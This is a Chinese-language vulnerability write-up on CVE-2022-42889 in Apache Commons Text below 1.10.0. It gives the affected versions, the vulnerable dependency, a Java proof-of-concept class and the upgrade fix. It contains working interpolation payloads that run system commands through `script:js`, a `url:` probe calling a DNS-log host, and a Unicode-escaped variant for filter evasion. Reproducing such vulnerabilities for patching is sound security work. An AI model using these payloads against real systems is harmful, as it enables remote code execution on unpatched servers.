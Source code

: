 # Apache Commons Text 远程代码执行（CVE-2022-42889 ）

## 来源描述：
https://seclists.org/oss-sec/2022/q4/22
CVE-2022-42889：由于不安全的插值默认值，1.10.0 之前的 Apache Commons Text 在应用于不受信任的输入时允许 RCE。

## POC：
### 利用
`String payload = "sssa${script:js:new java.lang.ProcessBuilder(\"任意系统命令\").start()}asdasd";`
### 探测：
`String payload3 = "sssa${url:UTF-8:http://dnslog.fun/CVE-2022-42889.html}asdasd";`

这个漏洞类似于Log4shell，脏数据插入到任何地方，只要进入到stringSubstitutorInterpolator.replaceXXX方法就可触发。

## 影响范围：
Apache Commons Text < 1.10.0【2022.09.28之前所有版本】

## 复现：
```
引入漏洞组件：

<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-text</artifactId>
    <version>1.9</version>
</dependency>
```
## 复现POC类：
```
package org.joychou.controller;
import org.apache.commons.text.StringSubstitutor;

public class SLF {

    public static void main(String[] args)  {
        System.out.println("Welcome to the POC of RCE on Apache Commons Text below 1.10.0");
// 这种用法才存在漏洞
        StringSubstitutor stringSubstitutorInterpolator = StringSubstitutor.createInterpolator();
        String payload = "sssa${script:js:new java.lang.ProcessBuilder(\"/Applications/Calculator.app/Contents/MacOS/Calculator\").start()}asdasd";
//        stringSubstitutorInterpolator.replace(payload); // exploit
//        stringSubstitutorInterpolator.replaceIn(new StringBuffer(payload)); //exploit

        System.out.println("The above payload will start a Calculator hence we can execute any code we want");

    }
}
```

## 修复方式：
-- 升级到1.10.0版本

类似的：
GHSL-2022-017: Arbitrary command execution through Apache Commons Configuration - CVE-2022-33980

https://securitylab.github.com/advisories/GHSL-2022-017_Apache_Commons_Configuration/

## POC

```
        String payload1 = "sssa${script:js:new java.lang.\\u0050\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\\u0042\\u0075\\u0069\\u006c\\u0064\\u0065\\u0072(\"open -a Calculator\".split(\" \")).\\u0073\\u0074\\u0061\\u0072\\u0074()}asdasd";
保持前面部分不变，后面的字符串可以unicode。
```

